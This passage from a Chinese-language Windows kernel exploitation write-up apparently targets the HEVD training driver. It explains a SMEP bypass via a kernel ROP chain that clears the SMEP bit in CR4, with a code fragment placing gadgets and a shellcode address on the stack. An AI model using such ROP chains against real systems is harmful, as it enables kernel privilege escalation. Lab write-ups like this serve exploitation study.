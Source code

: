 ```bash
}
```

调试中手动 CR4.SMEP=0（注意，之前已经关闭了 KVA）

[![](assets/1706090591-44ec9df7edeb0902296210d1454f6bf7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131252-e481ad18-b8e4-1.png)

### C. 使用内核 ROP 绕过 SMEP

首先我们需要一个类似于`mov rc4,xxx`的 rop，让`rc4.smep=0`，

参考在 Linux 下进行 ROP 的经验，payload 大致长这样的

```bash
*(unsigned long long*)(stackspace + 0x818) = (unsigned long long)pop_rcx_ret;
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)mov_rc4_rcx_ret;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
```

多调试或者编程自动寻找就可以找到了，这里暂时参考[HEVD Exploits – Windows 10 x64 Stack Overflow SMEP Bypass](https://h0mbre.github.io/HEVD_Stackoverflow_SMEP_Bypass_64bit/#)

[![](assets/1706090591-c901df88ee798a6721dbb372ab10e665.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131406-11050a56-b8e5-1.png)

[![](assets/1706090591-e72e6940b85a8215bb104807bada3fc7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131418-17d73a2a-b8e5-1.png)

修改 EXP
